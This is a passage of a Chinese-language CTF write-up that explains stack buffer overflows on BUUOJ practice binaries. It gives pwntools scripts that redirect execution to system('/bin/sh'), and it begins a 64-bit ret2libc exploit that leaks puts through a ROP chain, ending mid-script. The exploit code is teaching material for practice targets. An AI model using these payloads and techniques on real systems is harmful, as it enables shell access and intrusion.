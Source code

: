 ![image-20240506224221091](https://s2.loli.net/2024/05/06/5ILdMU3imohZ9Qu.png)

5. 用栈传参的原因：观察main函数中调用system函数时：参数传递的是利用push将变量的地址入栈，再使用call指令调用system。![image-20240506224336994](https://s2.loli.net/2024/05/06/WFMIsyNSkGzLKul.png)
6. 分析到这里有两种解法：
   * 直接使用main函数中的**call system**指令，只需要在调用前阿静参数入栈即可：攻击脚本，这是不需要手动填充**call**调用时的**返回值**问题。

``````python
from pwn import *
 
p = remote('node5.buuoj.cn',25955)

payload = b'a'*(136+4)+p32(0x804849E)+p32(0x804A024)
p.sendline(payload)
p.interactive()

``````

7. 第二种

   * 调用system函数，此时需要**手动填充**因没有使用**call指令**而产生的栈缺失问题(如果不补充，则咱进入system函数内部时，变量**/bin/sh**所在的栈空间与**system原来使用的变量**空间会不匹配)(后面将**函数栈帧**的时候一起讲把)：![image-20240506224927124](https://s2.loli.net/2024/05/06/uQwKgkAEz3mCtB6.png)

   * ``````
     from pwn import *
     p = remote('node5.buuoj.cn',27535)
     
     #加上p32(0)相当于进行了依次压栈操作，但是压入的数据无所谓只需要把system返回地址的32bit填满即可
     payload = b'a'*(136+4)+p32(0x8048320)+p32(0)+p32(0x804A024)
     #payload = b'a'*(136+4)+p32(0x8048320)+b'a'*4+p32(0x804A024)
     p.sendline(payload)
     p.interactive()
     
     ``````

   * ![image-20240506231806934](https://s2.loli.net/2024/05/06/1DfKoGUhlawOLZC.png)



## ciscn_2019_n_5

#### 注意：

1. 栈平衡。

1. 没有system函数，bin/sh/字符串，考虑ret2libc

   ![image-20240530194139000](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202405301941063.png)

2. 利用gets函数溢出，劫持puts函数，拿到puts函数的地址，进而获取libc的基地址，再计算system和str_bin_sh的地址，最后构造ROP，注意64位直接跳转system是小心栈平衡的问题

   ``````python
   from pwn import *
   from LibcSearcher import *
   context(os='linux', arch='amd64', log_level='debug')
   #获取got，plt，main地址
   p=remote("node5.buuoj.cn",28254)
   elf=ELF('./ciscn_2019_n_5')
   got = elf.got['puts']
   plt = elf.plt['puts']
   main_addr = elf.sym['main']
   print(hex(got),hex(plt))
   #使用pop_rdi_ret传参
   pop_rdi_ret = 0x400713
   payload = b'a'*(0x20+8)+p64(pop_rdi_ret)+p64(got)+p64(plt)+p64(main_addr)
   
   p.recvuntil(b"tell me your name\n")
   ``````